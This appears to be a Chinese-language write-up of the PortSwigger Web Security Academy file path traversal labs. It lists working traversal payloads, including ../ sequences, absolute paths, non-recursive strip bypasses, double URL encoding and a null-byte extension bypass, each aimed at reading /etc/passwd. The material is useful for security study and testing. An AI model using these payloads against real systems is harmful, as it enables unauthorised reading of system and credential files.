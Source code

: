 [toc]

#### 0. 绕过方式

* `?filename=../../../../../etc/passwd`
* `?filename=/etc/passwd`
* `?filename=....//....//....//etc/passwd`，没有递归删除`../`
* `?filename=..%252f..%252f..%252fetc/passwd`，两次url编码
* `?filename=/var/www/image/../../../etc/passwd`，传递的参数要求以预定的文件夹开始
* `?filename=../../../etc/passwd%00.png`，传递的参数要求以某种后缀结尾

#### 1. File path traversal, simple case

```
https://ac741f4b1e3923b280e1fc40009600fc.web-security-academy.net/image?filename=../../../../../../etc/passwd
```

#### 2. File path traversal, traversal sequences blocked with absolute path bypass

> The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

`/image?filename=/etc/passwd`

#### 3. File path traversal, traversal sequences stripped non-recursively

在使用之前，应用程序从用户提供的文件名中剥离路径遍历序列。但是没有递归删除`../`。

`/image?filename=....//....//....//etc/passwd`

#### 4. File path traversal, traversal sequences stripped with superfluous URL-decode

> The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.

先检测了`../`，但是之后又url-decode了一次，那将路径进行两次url编码。

#### 5. File path traversal, validation of start of path

> The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

这里预期的文件夹是`/var/www/image`。

`/image?filename=/var/www/images/../../../etc/passwd`

#### 6. File path traversal, validation of file extension with null byte bypass

传递的参数要求以`.png`后缀结尾。

`/image?filename=../../../etc/passwd%00.png`